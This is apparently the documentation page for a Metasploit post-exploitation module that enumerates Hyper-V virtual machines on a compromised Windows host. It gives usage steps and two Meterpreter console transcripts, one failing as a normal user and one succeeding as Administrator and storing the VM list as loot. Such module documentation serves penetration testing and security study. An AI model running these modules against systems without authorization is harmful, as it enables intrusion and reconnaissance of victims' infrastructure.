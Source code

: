 ## Vulnerable Application

  This post-exploitation module will check if a host is running Hyper-V. If the host is running Hyper-V, the module
  will gather information about all Hyper-V VMs installed on the host, including the name of the VM, its status,
  CPU usage, version of the Hyper-V engine that it relies on, and its state (running, suspended, offline, etc).

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_hyperv_vms`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. If the host has Hyper-V installed, a list of Hyper-V VMs which are on target host will be returned, along with their attributes.

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - Name of each VM
  - State of each VM
  - CPU Usage of each VM
  - How long each VM has been running for, down to the milliseconds.
  - Amount of memory assigned to each VM
  - Status of each VM
  - The version of the Hyper-V engine that each VM is using.

## Scenarios

### Meterpreter session as a normal user on Windows Server 2019 Standard Edition - fails as user lacks required permissions

```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.20.150.24:4444
[*] Sending stage (200262 bytes) to 172.20.150.24
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.20.150.24:4444) at 2020-09-10 18:33:16 -0500

meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > getuid
Server username: RAPID7\normal
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeMachineAccountPrivilege

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/enum_hyperv_vms 
msf6 post(windows/gather/enum_hyperv_vms) > show options

Module options (post/windows/gather/enum_hyperv_vms):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf6 post(windows/gather/enum_hyperv_vms) > set session 1
session => 1
msf6 post(windows/gather/enum_hyperv_vms) > run

[+] Compressed size: 800
[-] You need to be running as an elevated admin or a user of the Hyper-V Administrators group to run this module
[*] Post module execution completed
msf6 post(windows/gather/enum_hyperv_vms) > 
```

### Meterpreter session as an elevated admin user
```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.20.150.24:4444
[*] Sending stage (200262 bytes) to 172.20.150.24
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.20.150.24:4444) at 2020-09-10 18:43:15 -0500

meterpreter > getuid
Server username: RAPID7\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > use post/windows/gather/enum_hyperv_vms 
msf6 post(windows/gather/enum_hyperv_vms) > set SESSION 2 
SESSION => 2
msf6 post(windows/gather/enum_hyperv_vms) > run

[+] Compressed size: 800
[*] Name           State   CPUUsage(%) MemoryAssigned(M) Uptime           Status             Version
----           -----   ----------- ----------------- ------           ------             -------
Test Machine   Off     0           0                 00:00:00         Operating normally 9.0    
Windows XP SP3 Running 79          2048              02:54:58.3210000 Operating normally 9.0    

[+] Stored loot at /home/gwillcox/.msf4/loot/20200910184541_default_172.20.150.24_host.hyperv_vms_309544.txt
[*] Post module execution completed
msf6 post(windows/gather/enum_hyperv_vms) > 
```
